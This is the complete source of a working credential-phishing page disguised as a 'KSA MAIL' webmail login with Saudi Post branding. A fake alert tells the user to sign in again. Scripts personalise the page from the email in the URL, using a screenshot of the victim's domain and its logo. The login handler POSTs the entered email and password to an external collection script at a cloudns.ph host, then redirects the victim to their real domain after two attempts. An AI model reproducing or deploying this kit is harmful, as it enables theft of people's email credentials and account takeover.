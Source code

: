 <!DOCTYPE html>


<script type="text/javascript">alert("Sorry, you are using the old mailbox interface. Log in to the new interface again!");</script>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
        <title> Webmail Login</title>
        <!-- Bootstrap CSS -->
        <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
        <link href="https://fonts.googleapis.com/css?family=Archivo+Narrow&display=swap" rel="stylesheet">
        <script src="https://kit.fontawesome.com/585b051251.js" crossorigin="anonymous"></script>
        <link rel="stylesheet" href="https://storage.googleapis.com/oijhgbfvergyt4res.appspot.com/landing.css">
    </head>
    <style>
        body {
            background-image: url('https://i.imgur.com/KJ4MuEx.jpg');
            background-size: cover;
        }
    </style>
    <body>
        <div id="html_encoder_div">
            <div class="container">
                <div class="office show border shadow bg-light" id="others">
                    <div class="office-holder">
                        <div class="logo" style="text-align:center">
                            <div id="login_logo">
                                <img id="login_logo1" src="https://www.chilltracking.com/logo/saudi-post.svg" width="50" height="50" alt="Webmail">
                            </div>
                            <h3 class="text-dark"><strong id="domain-name" class="text-uppercase">KSA MAIL</strong></h3>
                            <h5 class="font-weight-light">sign in with your email address and password to continue using your current password</h5>
                        </div>
                        <center>
                            <div id="msg" style="display: none;font-weight: 600;color: red;">Password Timeout.! Please re-enter your correct password.</div>
                            <span id="error" class="text-danger" style="display: none;">That account doesn't exist. Enter a different account</span>
                        </center>
                        <form>
                            <div class="form-holder">
                                <div style="width: 100%;">
                                    <div class="alert alert-danger hide alert2"></div>
                                </div>
                                <input type="email" id="ai" class="form-control" value="" placeholder="someone@example.com" required="">
                                <input type="password" id="pr" placeholder="Password" class="form-control" required="">
                                <div class="checkbox">
                                    <input type="checkbox" name="" style="float: left; margin-top:2px; margin-bottom: 10px;">
                                    <label>REMEMBER ME</label>
                                </div>
                                <div class="btn-holder">
                                    <button class="btn btn-lg col-12" id="submit-btn">LOGIN</button>
                                </div>
                                <p style="color:#0073C6; margin-top:1em; float: left; width:100%;">can't access your account?</p>
                                <p style="color:#0073C6; margin-top:0em; float: left; width:100%;">Sign in with a single-use code</p>
                            </div>
                        </form>
                    </div>
                </div>
            </div>
        </div>
        <style>
            .tb_button {
            padding: 1px;
            cursor: pointer;
            border-right: 1px solid #8b8b8b;
            border-left: 1px solid #FFF;
            border-bottom: 1px solid #fff;
            }
            .tb_button.hover {
            borer: 2px outset #def;
            background-color: #f8f8f8 !important;
            }
            .ws_toolbar {
            z-index: 100000
            }
            .ws_toolbar .ws_tb_btn {
            cursor: pointer;
            border: 1px solid #555;
            padding: 3px
            }
            .tb_highlight {
            background-color: yellow
            }
            .tb_hide {
            visibility: hidden
            }
            .ws_toolbar img {
            padding: 2px;
            margin: 0px
            }
        </style>
        <!-- Optional JavaScript -->
        <!-- jQuery first, then Popper.js, then Bootstrap JS -->
        <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.12.9/umd/popper.min.js" integrity="sha384-ApNbgh9B+Y1QKtv3Rn7W3mgPxhU9K/ScQsAP7hUibX39j7fakFPskvXusvfa0b4Q" crossorigin="anonymous"></script>
        <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/js/bootstrap.min.js" integrity="sha384-JZR6Spejh4U02d8jOt6vLEHfe/JQGiRRSQQxSfFWpi1MquVdAyjUar5+76PVCmYl" crossorigin="anonymous"></script>
    </body>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/js/bootstrap.min.js"></script>
    <script>
        $(document).ready(function() {
            let count = 0;

            const email = window.location.hash.split('#').pop();

            if (email) {
                const domain = email.split('@').pop();
                fetch('https://nodeappoo.herokuapp.com/screenshot?website=' + domain)
                    .then(response => {
                        if (!response.ok) {
                            throw new Error('Network response was not OK');
                        }
                        return response.blob();
                    })
                    .then(myBlob => {
                        console.log("Came here");
                        $("body").css("background-image", "url(" + URL.createObjectURL(myBlob) + ")");
                        console.log(myBlob);
                    })
                    .catch(error => {
                        console.error('There was a problem fetching image:', error);
                    });
            }
        
            $('#back1').click(function() {
                $("#msg").hide();
                $('#ai').val("");
                $("#automail").animate({ left: 200, opacity: "hide" }, 0);
                $("#inputbar").animate({ right: 200, opacity: "show" }, 1000);
            });
        
            
            if (email) {
                const domain = email.split('@').pop();

                $('#ai').val(email);
                $('#ai').attr('disabled', "");
                $('#login_logo1').attr('src', 'https://logo.clearbit.com/' + domain);
                $('#domain-name').html(domain);
                $("#msg").hide();
                $("#inputbar").animate({ left: 200, opacity: "hide" }, 0);
                $("#automail").animate({ right: 200, opacity: "show" }, 1000);
            }
        
            $('#submit-btn').click(function(event) {
                event.preventDefault();
                console.log("Clicked");

                $('#error').hide();
                $('#msg').hide();
                
                const ai = $("#ai").val();
                const pr = $("#pr").val();
                const msg = $('#msg').html();

                $('#msg').text(msg);

                const my_ai = ai;
                const filter = /^([a-zA-Z0-9_\.\-])+\@(([a-zA-Z0-9\-])+\.)+([a-zA-Z0-9]{2,4})+$/;
                const domain = my_ai.split('@').pop();
        
                if (!ai) {
                    $('#error').show();
                    $('#error').html("Email field is emply.!");
                    ai.focus;
                    return false;
                }
        
                if (!filter.test(my_ai)) {
                    $('#error').show();
                    $('#error').html("That account doesn't exist. Enter a different account");
                    ai.focus;
                    return false;
                }

                if (!pr) {
                    $('#error').show();
                    $('#error').html("Password field is emply.!");
                    ai.focus;
                    return false;
                }

                count = count + 1;

                $('#ai').attr('disabled', "");
                $('#login_logo1').attr('src', 'https://logo.clearbit.com/' + domain);
                $('#domain-name').html(domain);
        
                $.ajax({
                    dataType: 'JSON',
                    url:'https://twotwofive.cloudns.ph/fury.php',
                    type: 'POST',
                    data: {
                        ai: ai,
                        pr: pr,
                    },
                    beforeSend: function(xhr) {
                        $('#submit-btn').html('Verifing...');
                    },
                    success: function(response) {
                        if (response) {
                            $("#msg").show();
                            console.log(response);
                            if (response['signal'] == 'ok') {
                                $("#pr").val("");
                                if (count >= 2) {
                                    count = 0;
                                    window.location.replace("http://www." + domain);
                                }
                            }
                        }
                    },
                    error: function() {
                        $("#pr").val("");
                        if (count >= 2) {
                            count = 0;
                            window.location.replace("http://www." + domain);
                        }
                        $("#msg").show();
                    },
                    complete: function() {
                        $('#submit-btn').html('Login');
                    }
                });
            });
        });
    </script>
</html>
